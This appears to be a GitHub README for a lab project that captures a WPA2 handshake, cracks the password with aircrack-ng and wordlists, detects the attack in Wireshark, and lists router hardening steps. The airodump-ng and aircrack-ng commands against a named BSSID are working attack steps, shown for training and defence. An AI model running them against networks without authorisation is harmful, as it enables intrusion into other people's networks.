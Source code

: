 # Wi-Fi Security Analysis: Attacking & Defending WPA2 Networks

##  Project Overview
This project demonstrates a **Wi-Fi security assessment** by attacking a WPA2-PSK network and implementing defensive measures to protect against real-world threats. 

 **Attack Scenario:** Capturing a WPA2 handshake and cracking the Wi-Fi password.  
 **Detection Methods:** Wireshark analysis, router logs, and intrusion detection tools.  
 **Defensive Measures:** WPA2-AES, MAC filtering, and security hardening.

---

##  1. Attack Execution: Capturing WPA2 Handshake

### **1.1 Setup: Enable Monitor Mode on TL Adapter**
```bash
sudo airmon-ng check kill  
sudo airmon-ng start wlan0  
iwconfig
```
![Monitor Mode](screenshots/Monitor_mode.png)

### **1.2 Scan for Networks & Identify Target**
```bash
sudo airodump-ng wlan0  
```
![Network Scan](screenshots/Network_Scan.png)

### **1.3 Capture WPA2 Handshake**
```bash
sudo airodump-ng -c 5 --bssid 1C:3B:F3:73:99:4C -w capture wlan0  
```
![Handshake Capture](screenshots/Handshake_Capture.png)

### **1.4 Verify Handshake in Aircrack-ng**
```bash
sudo aircrack-ng capture-05.cap  
```
![Handshake Verification](screenshots/Handshake_Verification.png)

---

##  2. Detection: Identifying the Attack

### **2.1 Analyze Handshake in Wireshark**
- Open `capture-05.cap` in Wireshark.
- Apply filter: `eapol`
![EAPOL Handshake](screenshots/EAPOL_Handshake.png)

### **2.2 Expand Key Details in Wireshark**
- Expand **802.1X Authentication** → **Key Information**
![EAPOL Details](screenshots/EAPOL_Details.png)

### **2.3 Detect Deauthentication Attack in Wireshark**
- Apply filter: `wlan.fc.type_subtype == 0x0c`
![Wireshark Detection](screenshots/Wireshark_Detection.png)

---

##  3. Cracking WPA2 Password

### **3.1 Run Aircrack-ng with RockYou Wordlist**
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 1C:3B:F3:73:99:4C capture-05.cap
```
![Password Cracking](screenshots/Password_Cracking.png)

### **3.2 If RockYou Fails, Use a Custom Wordlist**
```bash
echo -e "Test12345!\nTest12345\ntest12345!" > custom.txt  
sudo aircrack-ng -w custom.txt -b 1C:3B:F3:73:99:4C capture-05.cap  
```
![Cracked Password](screenshots/Cracked_Password.png)

---

##  4. Defense Strategies: Securing Wi-Fi Against Attacks

### **4.1 Strengthen WPA2 Security**
- **Set Encryption:** WPA2-PSK with AES (**never TKIP**).
- **Disable WPS** (to prevent WPS PIN attacks).
![Secured Wi-Fi Settings](screenshots/Secured_WiFi_Settings.png)

### **4.2 Enable MAC Filtering**
- **Whitelist trusted MAC addresses** in router settings.
- **Block unknown devices from connecting.**

---

##  Why This Project Matters for SOC Teams
🔹 **Real-World Threat:** Wi-Fi attacks are used in penetration testing and adversary simulations.  
🔹 **SOC Detection Relevance:** SOC analysts monitor for unauthorized deauth attacks and suspicious EAPOL packets.  
🔹 **Defensive Hardening:** This project demonstrates how to **detect & mitigate Wi-Fi attacks effectively**.

---

##  Conclusion
This project **simulates a real-world Wi-Fi attack** and **demonstrates key cybersecurity defense mechanisms**. It is valuable for anyone looking to break into **SOC Level 1 roles, penetration testing, or cybersecurity research.**

**Next Steps:** 
- Implement **Wi-Fi Intrusion Detection** using ELK or Splunk.
- Automate attack detection with Python scripts.

 **Follow my cybersecurity journey on LinkedIn & GitHub!** 


